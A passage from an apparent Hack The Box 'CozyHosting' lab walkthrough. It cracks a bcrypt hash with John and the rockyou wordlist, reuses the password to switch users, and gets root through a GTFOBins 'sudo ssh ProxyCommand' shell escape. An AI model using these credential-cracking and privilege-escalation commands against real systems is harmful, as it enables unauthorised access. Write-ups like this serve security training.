 We find some hashes.

![cozyhosting-db-hashes](/images/HTB-CozyHosting/db-hashes.png)

Let's what type of hash this is (of course we are interested in the admin hash we are already logged in as kanderson).

```
hashid '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' 
```
![cozyhosting-hash-ID](/images/HTB-CozyHosting/hashid.png)

### Lateral Movement

Let's try to crack the hash. First I get it into a file.

```
echo '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' > hash.txt
```

> If you don't want to use `John`, use this website [hashes.com](https://hashes.com/en/decrypt/hash)

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

I get the password `manchesterunited`.

Back on the reverse shell, I run `ls -la /home` and you I see another directory own by the user `josh`.

![cozyhosting-home-content](/images/HTB-CozyHosting/home-listing.png)

I switch to the `josh` user with `su josh` with the password we just cracked. I check his home directory with  `cd $home` and find the flag `user.txt` there!

![cozyhosting-user-flag](/images/HTB-CozyHosting/userflag.png)

## Privilege Escalation

I use `sudo -l` to see what this user can run.

![cozyhosting-sudo-l](/images/HTB-CozyHosting/sudo-l-josh.png)

I go to [GTFObins](https://gtfobins.github.io/gtfobins/ssh/#sudo) to find some ssh root shells commands and I use

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![cozyhosting-privilege-escalation](/images/HTB-CozyHosting/priv-escalation.png)

The shell is not optimal you can run this command to get a proper one

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
